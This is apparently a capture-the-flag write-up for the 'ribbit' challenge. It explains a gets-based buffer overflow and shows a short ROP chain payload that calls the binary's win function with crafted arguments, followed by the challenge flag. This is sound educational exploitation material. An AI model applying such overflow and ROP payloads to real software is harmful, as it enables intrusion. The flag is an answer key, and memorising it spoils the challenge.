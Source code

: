 # ribbit
![challenge](challenge.png)
### Challenge:
##### Oh no! My pet frog got stuck inside a giant hole! Can you help him ROP out?.

##### Files: [Dockerfile](Dockerifle), [ribbit.c](ribbit.c), [ribbit](ribbit)
##### Links: ```nc chal.nbctf.com 30170```

### Solution:

We have a bof in the frog() function due to a gets call, the binary is statically linked so we have all the gadgets we want.

There's a win function that gives us our flag if we call it with the correct parameters so we can simply rop our way to victory:

![challenge2](challenge2.png)

```py
to_write = b"You got this!"+b"\x00"*8+b"Just do it!"+b"\x00"*8
payload = b"A"*40 + write(WRITABLE, to_write) + POP_RDI + p64(0xf10c70b33f) + POP_RSI + p64(WRITABLE) + p64(elf.sym["win"])
```

This ropchain writes to a writable address the value the 2nd parameter needs to take, then it sets 1st and 2nd parameters registers to the correct values and calls the win function.

Solve script: [solve.py](solve.py)

Flag: ```nbctf{ur_w3lc0m3_qu454r_5abf2e}``